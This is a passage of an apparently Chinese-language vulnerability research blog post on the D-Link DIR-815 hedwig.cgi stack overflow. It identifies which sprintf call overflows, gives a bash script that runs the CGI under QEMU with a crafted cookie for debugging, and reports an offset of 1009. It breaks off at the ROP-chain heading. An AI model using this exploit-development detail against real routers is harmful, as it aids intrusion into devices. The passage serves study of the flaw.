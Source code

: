 跟完`sess_get_uid()`函数可发现后面还有一个`sprintf()`，这里也会造成栈溢出，哪到底哪个才是真正的利用点呢

从整个函数可以看出，`fopen("/var/tmp/temp.xml",
"w")`的成功与否会导致程序走向这两个地方，即成功后是第二个`sprintf()`为溢出利用点，而失败时是第一个`sprintf()`为溢出利用点

如果 `fopen("/var/tmp/temp.xml", "w")` 打开成功则会执行到第二个
`sprintf`，因为没有实机没法判断实际固件中是否有这个目录

因此我们手动创建该目录及文件


​    
​    mkdir var/tmp  
​    touch var/tmp/temp.xml

这里假设第二个`sprintf()`为漏洞点（其实是第一个还是第二个对于用户模式下的调试并没有多大关系，就是偏移不一样罢了，构造 rop
链方法都是一样的），所以偏移得重新计算

![](/images/D-LINK DIR-815多次溢出漏洞/1752587185429.png)

但是haystack为0的话无法走到第二个sprintf

![](/images/D-LINK DIR-815多次溢出漏洞/1752587185517.png)

交叉引用找到这

动调可知在sub_402B40函数，这里影响着haystack的赋值

![](/images/D-LINK DIR-815多次溢出漏洞/1752587185583.png)

这部分前面的代码，可知随便传点参数即可

参考D-Link DIR-815 路由器多次溢出漏洞分析 | Lantern's 小站
    
    
    #!/bin/bash  
    # test2.sh  
      
    INPUT="x=x"  
    COOKIE=$(python -c "print('uid=' + open('context','r').read())")  
    PORT="1234"  
    LEN=$(echo -n "$INPUT" | wc -c)  
    cp $(which qemu-mipsel-static) ./qemu  
      
    echo $INPUT | chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$COOKIE -E REQUEST_URI="/hedwig.cgi" -E REMOTE_ADDR="127.0.0.1"  -g $PORT /htdocs/web/hedwig.cgi  
    rm -f ./qemu

![](/images/D-LINK DIR-815多次溢出漏洞/1752587185654.png)![](/images/D-LINK
DIR-815多次溢出漏洞/1752587185715.png)

最终的偏移为1009.

  

**ROP 链的构造**
